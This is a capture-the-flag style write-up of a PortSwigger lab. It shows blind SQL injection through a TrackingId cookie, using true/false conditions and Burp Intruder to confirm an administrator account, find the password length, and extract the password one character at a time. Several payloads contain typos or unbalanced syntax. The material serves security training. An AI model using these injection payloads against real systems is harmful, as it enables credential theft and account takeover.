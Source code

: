 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a2277a84-8741-4b90-b15e-d88ad9c9eda9)


## Solution :

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6f499d35-6e1f-418e-8a34-f8b18889ea14)

*This how the session looks like where ```TrackingId and COOKIE-VALUE``` are shown and  Welcome back message is also displyed.*


TrackingID parameter is vulnerable. So it is vulnerablecan to blind SQL injection on trackingID parameter.

```If the Condition is true it will display the Welcome back message```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/fe425f15-d397-46a0-a068-7bcbdc6b4de8)

```If the Condition is not true it will not  display the Welcome back message```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8490db5d-55ae-4aaa-8924-0aee2f53704e)

#### Check Whether the users table is present  -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users LIMIT 1) = 'Ananthan' --
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1c3a0a67-73de-444c-b0bb-ad5af810eb62)

It display the Welcome back message. So ```user``` table is present.


#### Check Whether the username administrator is present in users table -

```Here table name is users```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users WHERE username='administrator')='Ananthan
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/88dbcb08-b121-47a8-8b20-cad203b083d4)

It display the Welcome back message. So username ```administrator```  is present in the user table.

#### Check the length password of administrator-

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users WHERE username='administrator' AND LENGTH(password)>15))='Ananthan
```
 
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6db47b3e-85b7-413e-aaf1-8ce6dc413045)

```Here 15 indicates the length of the password and it returns the response as true means the length of the password is greater than 15 as it display the Welcome back message.```

```Then changed the length from 15 to 25 ```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a2bd8908-a70e-425e-87bd-efde7e4d2bbe)

 ```It returns the response as false means the length of the password is less than 25 as it didn't display the Welcome back message.So the password length must be in between 15-25.```

```To find the length of the password send qury to  Intruder then and Add the password length part [> 15] and select attack type as SNIPER```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0cb97d88-5d96-4803-a9d6-8a7c6f3c2345)

```Then go to  payload sleect payload type as numbers after that set from 15 to 25.```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d3b3e562-81b9-449c-97e6-d3d64aa52be2)

```Then go to Grep-Match in setting and type Welcome back and start attack.```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e55351a5-0c64-4f7a-8270-008268938e20)
 
```After brute-force we understood that 20 is length of the password because while checking if length(password) > 20 it FAILS it didn't display the Welcome back message.```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1eb1d632-3ab2-4d73-b790-7c106fe6aadd)

#### Fining the  20 character length password by Brute force -


```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator' )='Ananthan--
```
we will able get the first character of the password that is  ```u```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ca75666a-da6e-4522-a2bc-d8ab76615131)

```To get all character of the password togther we need to set the attack type as cluter bomb and set to payloads one is for the postion of the chractor and other one normal string payload and select 1st payload set as number[range 1-20] to detemine the postion of the character and other payload as bruteforce [min & max length = 1] to determine the character . And then go to Grep-Match in setting and type Welcome back and start attack.```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,$1$,1) FROM users WHERE username='administrator' )='$Ananthan$'--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3c5afa8f-6b01-4cf9-95b5-b734ab02728b)

Now, we have received 20 different payloads that provide us with the 'Welcome back' option











